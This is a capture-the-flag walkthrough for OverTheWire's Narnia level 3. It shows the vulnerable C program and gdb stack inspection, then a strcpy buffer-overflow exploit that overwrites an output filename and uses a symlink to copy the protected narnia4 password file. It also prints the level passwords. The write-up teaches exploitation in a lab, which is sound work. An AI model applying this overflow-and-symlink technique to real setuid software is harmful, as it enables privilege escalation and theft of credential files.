

# Level 3 → Level 4

## Solution
```
ssh narnia3@narnia.labs.overthewire.org -p 2226
```
```
8SyQ2wyEDU
```
```
cd /narnia ; ls -al
```

```
./narnia3
```


```
./narnia3 /etc/narnia_pass/narnia4
```


Is it possible to print `/dev/null`? [No](https://linuxhandbook.com/dev-null/). So let's look at the code:

```
cat narnia3.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

There is no return in this code.<br />
Therefore there is no return value that we can overwrite...

But what really stands out here is again `strcpy` function. We will try to overwrite the string in `ofile` to be our **own file**. can we do this Let's check:

```
tempdir=$(mktemp -d) ; cd $tempdir
```
```
chmod 777 .
```
```
echo "File to copy" > $(perl -e 'print "A"x32')
```
```
touch $(perl -e 'print "B"x10')
```

Let's see what happens:

```
/narnia/narnia3 $(perl -e 'print "A"x32 . "B"x10')
```


What exactly happened?? <br />
It seems that the program was able to open `BBBBBBBBBB`, but failed with `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` because the name of the file is appended to the name of the next file...

Let's check what happened in the stack memory:

```
gdb /narnia/narnia3
```
```
disas main
```


Since we want to see the stack immediately after strcpy, we set the breakpoint to be at address `0x0804922d`:

```
b *0x0804922d
```
```
r $(perl -e 'print "A"x32 . "B"x10')
```
```
x/40x $sp
```


* Light Blue - `buf` (junk content)
* Green - `ifile`
* Yellow - `ofile`
* Red - `ofd` (junk content)
* Purple - `ifd` (junk content)

This mean that in the code `strcpy(ifile, argv[1]);` the name of the file `ifile` is like a string that should end in `\x00`. And because in this case there is no such character, the software tries to open the file `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBB` which actually does not exist.

So we will rename the ifile file to be 31 characters to reset the last character.

```
exit
```
```
rm $(perl -e 'print "A"x32')
```
```
echo "File to copy" > $(perl -e 'print "A"x31')
```
```
/narnia/narnia3 $(perl -e 'print "A"x31 . "\x00" . "B"x10')
```


I think I understand what's going on here.. The character \x00 cannot be inserted. We will check that this character was really ignored:

```
gdb --args /narnia/narnia3 $(perl -e 'print "A"x31 . "\x00" . "B"x10')
```
```
b *0x0804922d
```
```
r
```
```
x/40x $sp
```


very annoying Can we maybe change the null character to something else? We will check:

```
exit
```
```
/narnia/narnia3 $(perl -e 'print "A"x31 . "\x01" . "B"x10')
```



probably not.<br />
But when I saw this, I had the following idea:

We will actually create the file `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBB`. This file will be a soft link to the password.
When we enter it into the software, it will cause it to open `BBBBBBBBBB` as an `ofile`.
After that it will copy the file `ifile` to `ofile` and that's it. Let's try this:

```
cd ~ ; rm -r $tempdir ; tempdir=$(mktemp -d) ; cd $tempdir
```
```
chmod 777 .
```
```
ln -s /etc/narnia_pass/narnia4 $(perl -e 'print "A"x32 . "B"x10')
```
```
touch  $(perl -e 'print "B"x10')
```
```
ls -al
```


```
/narnia/narnia3 $(perl -e 'print "A"x32 . "B"x10')
```
```
cat BBBBBBBBBB
```


```
cd ~ ; rm -r $tempdir
```

## Password for the next level:
```
aKNxxrpDc1
```

